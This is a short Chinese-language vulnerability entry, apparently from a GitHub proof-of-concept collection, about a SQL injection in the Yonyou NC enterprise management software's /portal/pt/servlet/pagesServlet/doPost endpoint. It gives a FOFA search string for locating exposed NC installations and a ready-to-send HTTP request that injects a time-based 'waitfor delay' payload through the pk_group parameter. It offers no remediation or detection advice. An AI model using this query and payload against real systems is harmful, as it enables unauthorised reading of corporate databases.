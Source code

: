 ## 用友NC-pagesServlet存在SQL注入

用友NC是由用友公司开发的一套面向大型企业和集团型企业的管理软件产品系列。这一系列产品基于全球最新的互联网技术、云计算技术和移动应用技术，旨在帮助企业创新管理模式、引领商业变革。用友NC /portal/pt/servlet/pagesServlet/doPost接口存在SQL注入漏洞，攻击者通过利用SQL注入漏洞获取数据库敏感信息。

## fofa

```
app="用友-UFIDA-NC"
```

## poc

```
GET /portal/pt/servlet/pagesServlet/doPost?pageId=login&pk_group=1'waitfor+delay+'0:0:5'-- HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240604122921130](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406041229285.png)